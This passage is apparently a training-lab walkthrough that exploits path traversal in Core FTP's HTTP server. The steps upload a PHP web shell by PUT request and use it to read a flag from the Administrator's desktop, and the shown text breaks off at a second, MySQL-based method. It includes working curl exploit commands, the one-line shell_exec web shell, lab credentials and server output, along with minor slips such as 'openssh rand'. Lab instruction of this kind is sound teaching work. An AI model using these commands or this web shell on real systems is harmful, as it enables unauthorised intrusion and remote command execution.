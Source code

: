 ```
# Proof of Concept:

curl -k -X PUT -H "Host: <IP>" --basic -u <username>:<password> --data-binary "PoC." --path-as-is https://<IP>/../../../../../../whoops
```

Therefore, students need to write a PHP file that contains a web shell (students can generate a random name with the command `openssh rand -hex 16`) within the `--data-binary` option, utilizing the `Apache` directory `/xampp/htdocs` (since other directories might not be allowed):

Code: shell

```shell
curl -k -X PUT -H "Host: STMIP" --basic -u fiona:987654321 --data-binary '<?php echo shell_exec($_GET["c"]);?>' --path-as-is https://STMIP/../../../../../../xampp/htdocs/1af271ec0935f7ccbd31dc24666f7f33.php
```

```
┌─[eu-academy-1]─[10.10.14.45]─[htb-ac413848@htb-8ggdvgqazc]─[~]
└──╼ [★]$ curl -k -X PUT -H "Host: 10.129.242.84" --basic -u fiona:987654321 --data-binary '<?php echo shell_exec($_GET["c"]);?>' --path-as-is https://10.129.242.84/../../../../../../xampp/htdocs/1af271ec0935f7ccbd31dc24666f7f33.php

HTTP/1.1 200 Ok
Date:Sun, 27 Oct 2022 16:10:37 GMT
Server: Core FTP HTTP Server
Accept-Ranges: bytes
Connection: Keep-Alive
Content-type: application/octet-stream
Content-length: 36
```

At last, students need to print out the contents of the flag file "flag.txt", which is inside the directory `C:\Users\Administrator\Desktop\`, using the web shell (utilizing HTTP and not HTTPS):

Code: shell

```shell
curl -w "\n" http://STMIP/1af271ec0935f7ccbd31dc24666f7f33.php?c=type%20C:\\users\\administrator\\desktop\\flag.txt
```

```
┌─[eu-academy-1]─[10.10.14.45]─[htb-ac413848@htb-8ggdvgqazc]─[~]
└──╼ [★]$ curl -w "\n" http://10.129.242.84/1af271ec0935f7ccbd31dc24666f7f33.php?c=type%20C:\\users\\administrator\\desktop\\flag.txt

HTB{t#3r3_4r3_tw0_w4y$_t0_93t_t#3_fl49}
```

The second method to solve this question differs in that the web shell is not written using the `CoreFTP` exploit but rather via `MySQL`. With the attained `fiona:987654321` credentials, students need to connect to `MySQL` server on the spawned target:

Code: shell
